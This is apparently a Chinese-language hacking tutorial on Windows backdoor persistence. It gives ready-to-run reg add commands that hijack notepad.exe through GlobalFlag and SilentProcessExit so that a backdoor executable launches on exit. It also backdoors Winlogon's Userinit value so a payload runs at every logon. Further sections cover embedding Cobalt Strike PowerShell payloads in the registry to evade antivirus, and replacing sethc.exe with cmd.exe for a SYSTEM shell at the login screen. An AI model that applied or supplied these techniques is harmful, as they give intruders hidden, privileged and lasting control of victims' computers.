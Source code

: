 那有没有一种方法能够确保程序正常运行的情况下，然后劫持应用程序呢？


==**配合GlobalFlag隐藏:执行正常，关闭后触发**==

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\6.exe"

#劫持其他程序可直接更改命令的运行程序！（即将notepad.exe这个程序改为其他的即可）

打开软件能够正常使用，但是关闭之后，成功触发映像劫持上线！



登录界面
每次切换或者登录用户的时候，操作系统都会调用注册表的值。我们可对此注册表的值进行修改，让其每次切换用户或者登录时都会触发后门。此类方法还可配合木马免杀的无文件落地！
注册表的路径：
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\userinit
应用程序路径：
C:\Windows\System32\userinit.exe
可执行命令在该注册表值后面添加另外的值：
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon" /V "Userinit" /t REG_SZ /F /D "C:\Windows\system32\userinit.exe,C:\6.exe" #在该注册表值后面加入后门路径。注意是在逗号后面添加，不要改变原来的值！
效果：注销或者切换用户登录，后门程序即可上线




配合无文件落地使用：
无文件落地是免杀方案的一种，那么既然担心免杀问题的话，我们可以配合无文件落地的木马，直接将木马的执行程序的源代码写入到注册表中，即可不需要木马文件达到上线的目的
1、使用CS生成powershell源代码
![[1729415966057.jpg]]

2、将这段powershell源代码一起写入到注册表的值中HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon\Usernint 加到，的后面
#在该注册表值后面加入powershell源代码。注意是在逗号后面添加，不要改变原来的值！
效果：注销或者切换用户登录，后门程序即可上线，且上线的是powershell类型
如果还担心被杀毒软件查杀，那么我们可以结合前面所学的免杀知识。把这段值编译，加密等等等等的一些方法，即可实现内存免杀的操作！


五下shift快捷键（粘滞键）
Windows的粘滞键------C:\windows\system32\sethc.exe，它本是为不方便按组合键的人设计的
Windows系统按5下shift后，Windows就执行了system32下的sethc.exe，也就是启用了粘滞键
此键位在用户登录的情况下，查看进程里可以看到是以当前用户的权限运行的
但是当我们未登陆系统(停留在登陆界面)的时候 系统还不知道我们将以哪个用户登陆,所以在这个时候连续按5次shift后的话系统将会以system用户(具有管理员级别的权限)来运行sethc.exe这个程序

原理：
我们可以把cmd.exe这个程序更名称sethc.exe并且把原来的sethc.exe替换掉；在登陆界面的时候我
们连续按5下shift键系统以system权限就会运行我们的CMD.exe
那么我们的cmd.exe就具有了管理员权限了！
如此一来 我们只要利用CMD加一个管理员用户就可以登陆进去，实现隐藏后门
